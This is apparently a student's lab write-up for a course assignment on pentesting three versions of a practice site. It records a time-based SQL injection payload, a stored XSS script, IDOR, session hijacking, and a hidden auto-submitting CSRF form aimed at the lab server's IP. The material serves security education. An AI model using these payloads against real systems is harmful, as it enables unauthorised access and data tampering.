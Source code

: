 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection (SQLi) 

Description:

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/blue_sql_injection.gif)

  * [x]  The Attacker is Injects a sql command instead of the proper Salesperson's ID Number.
  * [x]  Injected SQL Command:
  ```html
' OR SLEEP(10)=0--'
  ```
  * [x]  This causes the Database to wait for 5 seconds while querying the data. May be longer than 5 seconds to account for request and response times.



Vulnerability #2: Session Hijacking/Fixation
![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/blue_session_hijacking.gif)

  * [x]  The Victim's session ID is obtained through the tool that is provided by the codepath
  * [x]  From the intercepted session, we can modify the session ID to the one we obtained from the Victim
  * [x]  The the attacker is logged in using the Victim's session ID
(Burpsuite can be used to intercept packets - view the session ID here as well and copy it down)



## Green

Vulnerability #1: User Enumeration

Description:

 * [x]  Seen below, the Green Website has the Username Enumeration error where the failure to login message differs for the Username that exists vs doesn't exist.
  * [x]  Using firefox's debugging tool, I was able to see that the Developer assigns two different classes, failed and failure, to the error message depending on the login senerio.
  * [x]  The "failure" class is applied an bold style in css while "failed" class doesn't. (Screen shots below)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_login_1.png)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_login_2.png)

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_user_enumeration.gif)


Vulnerability #2: Cross-Site Scripting (XSS)

Description:

* [x]  Attacker can inject an XSS in their feedback form.

* [x] Injected XSS Command    

```html
<script>alert('We got in!!!!!!!!');</script>
```
* [x]  This XSS runs once the account holder checks their feedback page

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/green_xss.gif)


## Red

Vulnerability #1: Insecure Direct Object Reference

Description:


  * [x]  Below GIF show an attacker getting access to the hidden user's accounts that the attacker is not permitted to view. 
  * [x]  This is done through modifying the "id" parameter in the URL's to change the GET request.
  * [x]  Below are the accounts that the Attacker is able to access:
![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/red_idor.gif)


Vulnerability #2: Cross-Site Request Forgery (CSRF)


  * [x]  Created a malicious page that utilizes the user's session to forge a request to the database:
```html
<html>
  <head>
    <title>NOT A FAKE FORM</title>
  </head>
  <body onload="document.my_form.submit()">
    <form action="https://35.184.199.7/red/public/staff/salespeople/edit.php?id=5" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="GET REKT NOOB" />
      <input type="text" name="last_name" value="LOVE YOU BABY" />
      <input type="text" name="phone" value="777-777-7777" />
      <input type="text" name="email" value="KEKW@KEKW.COM" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```
  * [x]  This page secretly makes a post request on page load and hides the outcome in a hidden iframe. 
  * [x]  As result, an account in the database is altered.

![alt text](https://github.com/ethansam911/code_path_week_9/blob/main/red_csrf.gif)

## Notes

Spent a lot of time trying to find the correct input boxes for the given exploitation methods. 

